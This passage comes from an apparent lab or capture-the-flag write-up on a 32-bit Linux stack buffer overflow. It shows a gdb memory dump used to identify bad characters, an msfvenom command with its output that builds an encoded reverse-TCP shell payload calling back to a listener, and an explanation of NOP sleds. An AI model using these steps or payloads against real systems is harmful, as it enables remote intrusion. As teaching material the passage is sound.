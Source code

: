 ```sh 
0xffffcbd0:	0x34	0x35	0x36	0x37	0x38	0x39	0x3a	0x3b
0xffffcbd8:	0x3c	0x3d	0x3e	0x3f	0x40	0x41	0x42	0x43
0xffffcbe0:	0x44	0x45	0x46	0x47	0x48	0x49	0x4a	0x4b
0xffffcbe8:	0x4c	0x4d	0x4e	0x4f	0x50	0x51	0x52	0x53
0xffffcbf0:	0x54	0x55	0x56	0x57	0x58	0x59	0x5a	0x5b
0xffffcbf8:	0x5c	0x5d	0x5e	0x5f	0x60	0x61	0x62	0x63
0xffffcc00:	0x64	0x65	0x66	0x67	0x68	0x69	0x6a	0x6b
0xffffcc08:	0x6c	0x6d	0x6e	0x6f	0x70	0x71	0x72	0x73
0xffffcc10:	0x74	0x75	0x76	0x77	0x78	0x79	0x7a	0x7b
0xffffcc18:	0x7c	0x7d	0x7e	0x7f	0x80	0x81	0x82	0x83
0xffffcc20:	0x84	0x85	0x86	0x87	0x88	0x89	0x8a	0x8b
0xffffcc28:	0x8c	0x8d	0x8e	0x8f	0x90	0x91	0x92	0x93
0xffffcc30:	0x94	0x95	0x96	0x97	0x98	0x99	0x9a	0x9b
0xffffcc38:	0x9c	0x9d	0x9e	0x9f	0xa0	0xa1	0xa2	0xa3
0xffffcc40:	0xa4	0xa5	0xa6	0xa7	0xa8	0xa9	0xaa	0xab
0xffffcc48:	0xac	0xad	0xae	0xaf	0xb0	0xb1	0xb2	0xb3
0xffffcc50:	0xb4	0xb5	0xb6	0xb7	0xb8	0xb9	0xba	0xbb
0xffffcc58:	0xbc	0xbd	0xbe	0xbf	0xc0	0xc1	0xc2	0xc3
0xffffcc60:	0xc4	0xc5	0xc6	0xc7	0xc8	0xc9	0xca	0xcb
0xffffcc68:	0xcc	0xcd	0xce	0xcf	0xd0	0xd1	0xd2	0xd3
0xffffcc70:	0xd4	0xd5	0xd6	0xd7	0xd8	0xd9	0xda	0xdb
0xffffcc78:	0xdc	0xdd	0xde	0xdf	0xe0	0xe1	0xe2	0xe3
0xffffcc80:	0xe4	0xe5	0xe6	0xe7	0xe8	0xe9	0xea	0xeb
0xffffcc88:	0xec	0xed	0xee	0xef	0xf0	0xf1	0xf2	0xf3
0xffffcc90:	0xf4	0xf5	0xf6	0xf7	0xf8	0xf9	0xfa	0xfb
0xffffcc98:	0xfc	0xfd	0xfe	0xff
```

Looks correct! So our bad character list is just `[\00\09\0a\20]`. 

### Generating Shell Code
Our next step will be to generate the shell code that we will be injecting into the buffer. To generate it we can use msfvenom which already has a tool to not include our bad characters we can generate it with the following command:

```sh
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=9001 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode
```

Our shellcode is 95 bytes long which is small enough to fit inside our buffer which can be as large as 2060 bytes. Since we have a lot of spare bytes we can use a nop sled. A nop sled is a long chain of nop instructions which basically tell the CPU to do nothing and jump to the next instruction. This helps us because our return address does not have to be exactly pointing to our shell code, it can instead point to anywhere in the nop sled and it will at some point execute our shell code. The diagram below shows the structure of the stack with our payload.
